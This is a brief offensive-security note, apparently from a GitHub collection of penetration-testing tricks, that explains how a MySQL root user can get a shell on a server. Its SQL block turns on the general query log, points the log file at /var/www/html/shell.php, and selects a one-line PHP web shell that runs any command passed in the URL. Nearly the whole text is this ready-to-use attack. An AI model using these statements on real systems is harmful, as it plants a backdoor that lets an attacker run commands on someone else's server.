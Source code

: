 # Mysql change log file to get shell

When you get a mysql `root` user, you can change the log file to get a shell.

``` sql
# Check if the current environment is enabled or not.
SHOW VARIABLES LIKE '%general_log%';

# Enable logging
SET GLOBAL general_log = "ON";

# Set the logging output file
SET GLOBAL general_log_file="/var/www/html/shell.php";

# Then all the commands you type will be recorded in the log file.
SELECT '<?php system($_GET["cmd"]);?>';

# disable logging
set global general_log = off;
```